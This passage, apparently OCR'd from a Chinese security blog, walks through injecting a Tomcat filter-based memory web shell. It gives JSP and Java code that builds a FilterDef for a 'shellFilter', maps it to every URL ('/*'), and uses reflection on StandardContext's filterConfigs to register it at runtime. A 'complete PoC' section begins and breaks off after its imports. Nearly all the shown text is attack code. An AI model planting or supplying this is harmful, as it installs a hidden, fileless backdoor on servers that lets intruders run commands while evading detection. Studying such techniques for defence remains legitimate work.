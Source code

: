   ```jsp
                  }
              }
              filterChain.doFilter(servletRequest, servletResponse);
          }
      }
  %>
  ```

  封装filterDef

  ```jsp
  <%
      shellFilter shellFilter = new shellFilter();
      String name = "shellfilter";
      FilterDef filterDef = new FilterDef();
      filterDef.setFilter(shellFilter);
      filterDef.setFilterName(name);
      filterDef.setFilterClass(String.valueOf(shellFilter.getClass()));
      standardContext.addFilterDef(filterDef);
  %>
  ```

  创建filtermap

  ```java
      FilterMap filterMap  = new FilterMap();
      filterMap.setFilterName(name);
      filterMap.addURLPattern("/*");
      filterMap.setDispatcher(DispatcherType.REQUEST.name());
      standardContext.addFilterMap(filterMap);
  ```

  获取filterConfigs并将filterDef添加

  ```java
      //使用ApplicationFilterConfig封装filterDef，然后将其添加到filterConfigs中
      Field fieldconfigs = standardContext.getClass().getDeclaredField("filterConfigs");
      fieldconfigs.setAccessible(true);
      Map filterConfigs = (Map) fieldconfigs.get(standardContext);
          //获取构造函数
      Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
      constructor.setAccessible(true);
      ApplicationFilterConfig filterconfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);
  
      filterConfigs.put(name,filterconfig);
  ```

  完整poc

  ```jsp
  <%--
    Created by IntelliJ IDEA.
    User: uu2fu3o
    Date: 2024/6/28
    Time: 22:08
    To change this template use File | Settings | File Templates.
  --%>
  <%@ page contentType="text/html;charset=UTF-8" language="java" %>
  <%@ page import="org.apache.catalina.core.ApplicationContext" %>
  <%@ page import="java.lang.reflect.Field" %>
  <%@ page import="org.apache.catalina.core.StandardContext" %>
  <%@ page import="java.io.IOException" %>
  <%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
  <%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
  <%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
  <%@ page import="java.util.Map" %>
  ```